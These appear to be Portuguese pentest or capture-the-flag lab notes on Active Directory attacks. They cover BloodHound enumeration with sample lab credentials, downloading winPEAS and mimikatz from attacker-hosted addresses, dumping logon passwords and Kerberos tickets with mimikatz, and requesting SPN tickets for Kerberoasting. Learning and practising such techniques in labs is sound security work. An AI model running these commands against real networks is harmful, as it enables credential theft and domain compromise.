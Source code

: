 ```
bloodhound-python -u <username> -p <password> -d <domain> -v --zip -c All -dc <dc_hostname> -ns <dns_ip>
```

```
#Exemplo
bloodhound-python -u mhope -p '4n0therD4y@n0th3r$' -d MEGABANK.LOCAL -v --zip -c All -dc MEGABANK.LOCAL -ns 10.10.10.172
```

Depois precisamos iniciar o neo4j console para conseguir abrir o bloodhound:

```
sudo neo4j console
<CTRL+Z>
bg
bloodhound
```

Vale considerar que já deixei as credenciais salvas para evitar problemas

### Enumerar hashes de senha ou senhas em texto claro

Detalhe que podemos enumerar o console history do powershell cmo WinPEAS, por exemplo pra fazer a enumeração completa:

```
wget http://10.10.14.17/4-privilege%20escalation/winPEASx64.exe -o wp.exe
./wp.exe
```

**NESTA ETAPA É INTERESSANTE QUE TENHAMOS FEITO A ESCALAÇÃO DE PRIVILÉGIO PARA CONSEGUIR CONDUZIR MAIS ALGUNS TESTES, SENDO ELES:**

```
wget http://10.10.10.10/6-ADTools/mimikatz/x64/mimikatz.exe -O m.exe
#ou 
copy \\192.168.0.165\smb\mimikatz.exe c:\temp\m.exe
```

```
./m.exe
privilege::debug
sekurlsa::logonpasswords
```

Agora para tickets **kerberos**, podemos fazer da seguinte maneira:

```
./m.exe
privilege::debug
sekurlsa::tickets
```

Aqui teremos duas opções de extração, sendo elas TGS e TGT. No caso de já termos o acesso adm, basta obtermos o ticket do SPN da seguinte maneira:

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList
'<SPN_Name>'
```
